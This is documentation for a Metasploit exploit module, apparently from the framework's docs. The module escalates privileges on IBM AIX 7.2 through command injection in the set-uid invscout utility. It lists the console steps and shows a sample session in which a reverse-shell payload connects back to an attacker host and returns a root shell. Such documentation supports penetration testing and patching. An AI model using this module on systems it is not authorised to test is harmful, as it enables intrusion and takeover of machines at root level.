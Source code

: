 ## Vulnerable Application

This module exploits a command injection vulnerability in IBM AIX
invscout set-uid root utility present in AIX 7.2 and earlier.

The undocumented -rpm argument can be used to install an RPM file;
and the undocumented -o argument passes arguments to the rpm utility
without validation, leading to command injection with effective-uid
root privileges.

This module has been tested successfully on AIX 7.2.

## Verification Steps

1. `msfconsole`
1. Get a session
1. `use exploit/aix/local/invscout_rpm_priv_esc`
1. `set session <session>`
1. `run`

## Options

### INVSCOUT_PATH

Path to invscout executable (default: `/usr/sbin/invscout`)

## Scenarios

### IBM AIX 7.2

```
msf6 > use exploit/aix/local/invscout_rpm_priv_esc
msf6 exploit(aix/local/invscout_rpm_priv_esc) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(aix/local/invscout_rpm_priv_esc) > set session 1
session => 1
msf6 exploit(aix/local/invscout_rpm_priv_esc) > run

[*] Started reverse TCP double handler on 192.168.200.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Output: uid=204(user) gid=1(staff) euid=0(root)
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BZSm5LKtW9OMKHg;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "9BZSm5LKtW9OMKHg\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.200.130:4444 -> 192.168.200.204:49036) at 2023-05-13 18:29:23 -0400

id
uid=204(user) gid=1(staff) euid=0(root)
uname -a
AIX localhost 2 7 000000000000
```
